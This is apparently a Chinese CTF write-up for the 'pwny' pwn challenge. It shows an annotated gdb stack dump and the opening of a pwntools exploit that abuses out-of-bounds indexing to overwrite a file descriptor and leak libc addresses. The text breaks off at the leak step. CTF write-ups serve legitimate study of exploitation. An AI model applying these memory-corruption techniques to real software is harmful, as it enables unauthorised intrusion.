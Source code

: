 ```assembly
00:0000│ rsp 0x7fff01a4c678 —▸ 0x55d2a1b468e6 ◂— jmp    0x55d2a1b46875 ; 下一条要执行的指令是ret
01:0008│ rbp 0x7fff01a4c680 ◂— 0x2                          ; 故会pop EIP将RSP指向的内存地址上的值0x55d2a1b468e6赋值给EIP
02:0010│     0x7fff01a4c688 ◂— 0xd2dac1c77d883000
03:0018│     0x7fff01a4c690 —▸ 0x7fff01a4c780 ◂— 0x1
04:0020│     0x7fff01a4c698 ◂— 0x0
05:0028│     0x7fff01a4c6a0 —▸ 0x55d2a1b46c70 ◂— push   r15
06:0030│     0x7fff01a4c6a8 —▸ 0x7f3c46490bf7 (__libc_start_main+231) ◂— mov    edi, eax
07:0038│     0x7fff01a4c6b0 ◂— 0x2000000000
─────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────
 ► f 0   0x55d2a1b46c20
   f 1   0x55d2a1b468e6 ; 从调用栈这里也能看到caller的下一个地址就是0x55d2a1b468e6
   f 2   0x7f3c46490bf7 __libc_start_main+231
```



# Exploit

> TEST PASS:
>
> 1. kali 18.04, Python 3.6.6, pwntools 4.5.0, libc-2.27.so, ld-2.27.so.
> 2. Ubuntu 1804, python 3.6.9, pwntools 4.5.1, libc-2.27.so, ld-2.27.so
>
> 在`gdb.attach()`时，会有`[-] Waiting for debugger: debugger exited! (maybe check /proc/sys/kernel/yama/ptrace_scope)`，实际上gdb有运行，同时在MobaXterm无法显示gdb窗口，在虚拟机上有gdb窗口。所以建议在运行时在linux虚拟机上直接运行，而不是远程连接linux虚拟机运行。
>
> cannot run(by default): kali 1904, kali 2004

```python
from pwn import *
context.binary = './pwny'
sh = process("./pwny", env={'LD_PRELOAD': './libc-2.27.so'})
# sh = process(["./ld-2.27.so", "./pwny"], env={'LD_PRELOAD': './libc-2.27.so'})
# sh = remote("124.71.229.55", "22991")


def read(idx):
    sh.sendlineafter("Your choice: ", "1")
    sh.sendlineafter(b"Index: ", p64(idx & 0xffffffffffffffff))  # 16个f


def write(idx, buf='', is_stdin=False):  # id=1
    # sh.sendlineafter("Your choice: ", "2")
    sh.recvuntil("choice: ")
    sh.sendline("2")
    # __printf_chk(1LL, "Index: "); __isoc99_scanf("%ld", &v2);
    sh.sendlineafter("Index: ", str(idx))
    if(is_stdin == True):
        sh.send(buf)  # read((unsigned __int8)fd, &v2, 8uLL);


# ===== STEP-1 覆盖fd为 0(stdin)
write(256)  # qword_202060 idx=256刚好就是fd的存储位置，都在.bbs段
# 第一次 write(256) 会将fd覆盖为一个随机数
# gdb.attach(sh)
write(256)  # 第二次 write(256) 时，由于fd被覆盖为一个随机数(并且大概率不是0,1,2,3)
# 这就导致了这个fd实际上是未打开，没有对应文件/socket的。导致buf被置为0，然后 arr[256](i.e. fd) = 0

# ===== STEP-2 计算libc基址
read(-4)  # arr[-4] 即为 stderr 的值(from IDA analysis) # stdin stdout 也在附近，也可以用
sh.recvuntil("Result: ")
```